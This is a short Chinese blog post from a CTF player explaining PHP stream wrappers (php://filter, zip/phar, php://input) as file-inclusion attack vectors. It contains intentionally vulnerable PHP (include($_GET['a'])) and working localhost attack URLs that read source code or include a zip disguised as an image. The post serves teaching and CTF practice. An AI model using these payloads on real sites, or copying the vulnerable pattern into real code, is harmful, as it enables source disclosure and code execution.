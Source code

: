 ```yaml
---
layout:     post
title:      浅谈php伪协议
subtitle:   
date:       2016-11-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - php
---
```


这次校赛，学长出的一道tomcat提权的题目，需要用伪协议去读文件和getshell，所以记录下常见的几种伪协议及其安全问题。

### 0x01 php://filter
php://filter是一种元封装器，设计用于数据流打开时的筛选过滤应用，这里可造成LFI
```php
<?php   //test.php
phpinfo();
?>
<?php   //1.php
include($_GET['a']);
?>
```
![](http://cdn.sp4rk.cn/1.png?imageView2/0/q/75|watermark/1/image/aHR0cDovL3d3dy5zcDRyay5jbi81ODQ5Yi93YXRlcm1hcmsucG5n/dissolve/60/gravity/SouthEast/dx/10/dy/10|imageslim)
```
http://127.0.0.1/1.php?a=php://filter/read=convert.base64-encode/resource=index.php
```
base64 decode一下就是test.php的源码
allow_url_include:on 可以造成RFI
### 0x02 zip和phar协议


<!--more-->


zip(phar)协议造成的文件包含，将test.php压缩为test.zip，再zip改名为jpg格式
```
http://127.0.0.1/1.php?a=zip:///var/www/html/test.jpg%23test.php
```
成功包含
![](/Users/sp4rk/Desktop/boke/p.png)

### 0x03 php://input
php://input可以访问请求的原始数据的只读流,可以接收POST请求的数据，造成文件包含
```php
<?php
$user=$_GET['user'];
if(file_get_contents($_GET['a'],'r')==='test'){
	echo phpinfo();
}
else{
	echo "test failed!";
}
?>
```
![](/Users/sp4rk/Desktop/boke/q.png)